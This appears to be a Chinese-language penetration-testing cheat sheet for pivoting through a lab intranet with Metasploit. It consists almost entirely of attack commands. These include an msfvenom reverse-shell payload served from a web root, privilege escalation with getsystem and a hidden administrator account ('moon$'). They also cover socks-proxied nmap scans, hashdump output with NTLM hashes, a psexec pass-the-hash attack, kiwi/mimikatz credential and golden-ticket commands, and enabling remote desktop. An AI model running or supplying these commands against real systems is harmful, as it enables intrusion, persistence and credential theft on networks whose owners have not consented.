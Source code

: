 拓扑图![image-20210504203532988](../acess/image-20210504203532988.png)

dmz隔离区

数据库 备份服务器 物理隔

生成攻击载荷

```bash
msfvenom  -p windows/meterpreter/reverse_tcp lhost=192.168.31.115 lport=12345 -f exe >/var/www/html/s.exe
```

本地监听

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.31.150
set lport 12345
exploit
```

 增加路由

```bash
run autoroute -s 10.10.10.0/24
```

 查看路由别表

```bash
route
```

 清空路由 

```bash
run autorute -d 
```

**提权命令**

sysinfo	查看系统信息	

route	查看路由表	

ps	进程	

migrate	注入进程	

1836  1820  explorer.exe

```bash
migrate  1836
```

getuid	当前用户

getprivs	尽可能提升权限

getsystem	通过各种攻击向量来提升系统用户权限

**shell 命令**

中文乱码

```bash
chcp 65001
```

增加管理员

```bash
net user moon$ moon123 /add & net localgroup administrators moon$ /add
```

检测存活IP

```
run post/multi/gather/ping_sweep RHOSTS=10.10.10.0/24
run post/windows/gather/arp_scanner RHOSTS=10.10.10.0/24
```

![image-20210504205810944](../acess/image-20210504205810944.png)

![image-20210504205935157](../acess/image-20210504205935157.png)

后台运行、查看sessions

```
background
sessions -i
```

socket代理 用namp 扫描内网的ip的服务(**注意需要先添加路由**)

```bash
use auxiliary/server/socks_proxy
set SRVPORT 1080
set VERSION   4a
run
```

修改/etc/prxoychains.conf

```bash
socks4  127.0.0.1 1080
```

扫描10段的128到143的机子，假如有开放22、80、445、3306端口保存到10.10.10.0.txt

```bash
proxychains nmap -sT -Pn -p 445,22,80,3306 10.10.10.128 10.10.10.129 10.10.10.132 10.10.10.134 10.10.10.143 --open -oN 10.10.10.0.txt
```

![image-20210504214715501](../acess/image-20210504214715501.png)

 445开放尝试hash攻击，hash获取 

```
run hashdump #或者
run post/windows/gather/smart_hashdump
```

![image-20210504215625892](../acess/image-20210504215625892.png)

smb 传递hash攻击

```bash
background
use exploit/windows/smb/psexec
set payload windows/meterpreter/bind_tcp 
show options
set RHOST 10.10.10.134
set SMBUser Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4
exploit
```

![image-20210504235225674](../acess/image-20210504235225674.png)

hash 在线解密

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
MYSQL_USER:1008:aad3b435b51404eeaad3b435b51404ee:df4116c6e6bf327aa4920b009b191c9e
APP_IWAM_9335038:1009:aad3b435b51404eeaad3b435b51404ee:17cf70de84afdc5d92f0b05215babf0c
PhpMyAdmin_USER:1010:aad3b435b51404eeaad3b435b51404ee:f972f31439348965c521836749e32ba0
moon$:1012:aad3b435b51404eeaad3b435b51404ee:ea2374ffaee2c1c02492a338ed450d23
```

 密码收集

mimikatz以被kiwi替代，自带的命令来从目标机器上导出hash和明文证书。

加载kiwi模块(需要SYSTEM权限)

```bash
load kiwi  
```

查看kiwi模块的使用

```bash
help kiwi
```

kiwi命令详解

```bash
creds_all：列举所有凭据（可以列举系统中的明文密码）
creds_kerberos：列举所有kerberos凭据
creds_msv：列举所有msv凭据
creds_ssp：列举所有ssp凭据
creds_tspkg：列举所有tspkg凭据
creds_wdigest：列举所有wdigest凭据
dcsync：通过DCSync检索用户帐户信息
dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
golden_ticket_create：创建黄金票据
kerberos_ticket_list：列举kerberos票据
kerberos_ticket_purge：清除kerberos票据
kerberos_ticket_use：使用kerberos票据
kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
lsa_dump_sam：dump出lsa的SAM
lsa_dump_secrets：dump出lsa的密文
password_change：修改密码
wifi_list：列出当前用户的wifi配置文件
wifi_list_shared：列出共享wifi配置文件/编码 
```

![image-20210505002219677](../acess/image-20210505002219677.png)

开启远程连接

```bash
run getgui -e
```

增加帐号（可能会失败）

```bash
run getgui -u moon$ -p moon123
```

获取系统权限

```bash
shell
```

添加用户

```bash
net user moon$ moon123 /add & net localgroup administrators moon$ /add
```

端口转发

```bash
proxychains rdesktop -u moon$ -p moon123 10.10.10.134
```

![image-20210505002540149](../acess/image-20210505002540149.png)

